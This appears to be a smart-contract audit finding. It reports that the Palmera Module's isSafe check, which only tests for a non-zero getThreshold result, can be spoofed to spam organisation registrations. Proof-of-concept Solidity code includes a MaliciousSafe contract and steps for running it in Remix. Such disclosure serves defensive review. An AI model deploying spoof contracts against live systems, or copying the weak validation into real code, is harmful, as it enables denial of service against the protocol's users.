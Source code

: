 ## Title: Bypass of isSafe Validation Allows Malicious Contract Registrations and Spam the Palmera Module contracts with System-Wide Exploitation

### Description

The isSafe function in the Helpers contract is designed to validate whether a given address is a Safe Smart Account Wallet. However, this validation can potentially be bypassed by a malicious contract that mimics the behavior of a Safe Smart Account Wallet. This issue can lead to unauthorized access, spamming of data structures, Denial of Service (DoS) attacks, compromised security and governance.


#### Impact

Bypass of isSafe Validation Allows Malicious Contract Registrations

### Proof Of Concept

Attack Scenario

1. Deploy Malicious Contracts: An attacker deploys multiple instances of a malicious contract 1 that mimics the behavior of a Safe Smart Account Wallet by implementing the getThreshold function to return a non-zero value.
2. Call registerOrg: The attacker calls the registerOrg function multiple times, using the addresses of the deployed MaliciousSafe contracts.
3. Impact: The orgHash array and other data structures are spammed with invalid entries, leading to excessive storage usage, increased gas costs, and potential performance degradation. The system's security and governance are compromised, and legitimate users face service disruption.

Create the following files in Remix IDE to demonstrate the vulnerability:

1. ISafe.sol

```
    // SPDX-License-Identifier: MIT
    pragma solidity 0.8.23;

    interface ISafe {
        function getThreshold() external view returns (uint256);
    }

```

2. MaliciousSafe.sol

```
    // SPDX-License-Identifier: MIT
    pragma solidity 0.8.23;

    import "./ISafe.sol";

    contract MaliciousSafe is ISafe {
        function getThreshold() external pure override returns (uint256) {
            return 1; // Mimic a valid Safe Smart Account Wallet
        }
    }
```
3. Helpers.sol

```
    // SPDX-License-Identifier: MIT
    pragma solidity 0.8.23;

    import "@openzeppelin/contracts/utils/Address.sol";
    import "./ISafe.sol";

    contract Helpers {
        using Address for address;

        /// @notice Method to Validate if address is a Safe Smart Account Wallet
        /// @dev This method is used to validate if the address is a Safe Smart Account Wallet
        /// @param safe Address to validate
        /// @return bool
        function isSafe(address safe) public view returns (bool) {
            /// Check if the address is a Safe Smart Account Wallet
            if (safe.isContract()) {
                /// Check if the address is a Safe Multisig Wallet
                bytes memory payload = abi.encodeCall(ISafe.getThreshold, ());
                (bool success, bytes memory returnData) = safe.staticcall(payload);
                if (!success) return false;
                /// Check if the address is a Safe Smart Account Wallet
                uint256 threshold = abi.decode(returnData, (uint256));
                if (threshold == 0) return false;
                return true;
            } else {
                return false;
            }
        }
    }
```

4. Helpers.t.sol

```
        // SPDX-License-Identifier: MIT
    pragma solidity 0.8.23;

    import "./Helpers.sol";
    import "./MaliciousSafe.sol";

    contract TestHelpers {
        Helpers helpers;
        MaliciousSafe maliciousSafe;

        constructor() {
            helpers = new Helpers();
            maliciousSafe = new MaliciousSafe();
        }

        function testIsSafeBypass() public view returns (bool) {
            return helpers.isSafe(address(maliciousSafe));
        }
    }
```

Run the Test in Remix

Open Remix IDE (https://remix.ethereum.org/).

Create the four files (ISafe.sol, MaliciousSafe.sol, Helpers.sol, and TestHelpers.sol) and copy the respective code into each file.

Compile all the contracts.

Deploy the TestHelpers contract.

Call the testIsSafeBypass function on the deployed TestHelpers contract.
If the testIsSafeBypass function returns true, it means the isSafe function can be bypassed by the MaliciousSafe contract. If it returns false, it means the isSafe function is robust against this specific bypass attempt.

